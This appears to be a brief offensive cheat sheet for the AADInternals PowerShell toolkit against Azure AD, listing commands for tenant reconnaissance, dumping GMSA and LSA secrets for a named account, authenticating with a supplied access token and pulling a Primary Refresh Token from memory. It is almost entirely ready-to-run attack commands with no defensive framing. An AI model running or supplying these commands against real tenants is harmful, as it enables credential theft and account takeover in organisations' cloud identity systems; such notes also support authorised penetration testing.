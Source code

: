 ### Source
https://github.com/Gerenios/AADInternals

### Install and Import
```
Install-Module AADInternals
Import-Module AADInternals.psd1
```

### Gather informations from AzureAD
```
Get-AADIntTenantDomains -Domain <domain>
```

### Gather informations from AzureAD
```
Invoke-AADIntReconAsOutsider -DomainName <tenant>.onmicrosoft.com
```

### Get GMSA password from given user
```
Get-AADIntLSASecrets -AccountName "<domain>\<user>"
```

### Use AAD Graph token
```
Connect-AzureAD -AccountId <user>@<tenant>.onmicrosoft.com -AadAccessToken <token>
```

### Retrviere Primary Refresh Token from memory
```
Get-AADIntUserPRTToken
```

